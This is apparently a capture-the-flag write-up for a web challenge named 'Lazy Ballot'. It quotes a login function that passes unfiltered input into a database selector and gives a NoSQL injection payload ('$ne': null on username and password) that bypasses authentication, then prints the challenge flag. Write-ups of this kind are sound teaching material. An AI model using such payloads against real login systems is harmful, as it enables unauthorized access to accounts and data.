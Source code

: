 # Lazy Ballot
> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## About the Challenge
We were given a source code (You can download the source code [here](web_lazy_ballot.zip)) and also we got a website to test. Here is the preview of the website

![preview](images/preview.png)

And also there is a login page

![prevew_login](images/preview_login.png)

The flag was located in the database, especially in the `votes` database and we need to login first to obtain the flag

![flag_location](images/flag_location.png)

## How to Solve?
If you check this code in `database.js` file

```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
    }
```

As you can see there is no filter in the code so we can bypass it using this payload

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![bypass](images/bypass.png)

And then find the flag in the voting list

![flag](images/flag.png)

```
HTB{c0rrupt3d_c0uch_b4ll0t}
```